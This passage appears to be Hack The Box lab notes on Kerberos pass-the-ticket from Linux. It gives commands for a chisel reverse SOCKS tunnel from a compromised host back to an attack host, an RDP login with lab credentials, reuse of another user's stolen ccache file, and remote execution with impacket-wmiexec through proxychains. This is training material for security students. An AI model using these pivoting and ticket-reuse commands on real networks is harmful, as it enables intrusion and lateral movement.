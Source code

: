 ```Shell
mv chisel_* chisel && chmod +x ./chisel
```

#### Start Chisel on Attack Host
```Shell
chisel server --reverse
```

#### Connect to MS01 with xfreerdp
```Shell
xfreerdp /v:10.129.204.23 /u:david /d:inlanefreight.htb /p:Password2 /dynamic-resolution
```

#### Execute Chisel from MS01
```cmd.exe
c:\tools\chisel.exe client 10.10.14.33:8080 R:socks
```
*Note: The client IP is your attack host IP.*

#### Transfer Julio's ccache file from `LINUX01` and create the environment variable `KRB5CCNAME` with the value corresponding to the path of the ccache file
```Shell
export KRB5CCNAME=/home/htb-student/krb5cc_647401106_I8I133
```

### Impacket

#### Using Impacket with proxychains and Kerberos Authentication
```Shell
proxychains impacket-wmiexec ms01 -k
```

***Note: If you are using Impacket tools from a Linux machine connected to the domain, note that some Linux Active Directory implementations use the FILE: prefix in the KRB5CCNAME variable. If this is the case, we need to modify the variable only to include the path to the ccache file.***

### Evil-WinRM

#### Installing Kerberos Authentication Package
```Shell
apt-get install krb5-user -y
```

#### Kerberos Configuration File for INLANEFREIGHT.HTB
```Shell
cat /etc/krb5.conf

[libdefaults]
        default_realm = INLANEFREIGHT.HTB

<SNIP>

[realms]
    INLANEFREIGHT.HTB = {
        kdc = dc01.inlanefreight.htb
    }

<SNIP>
```
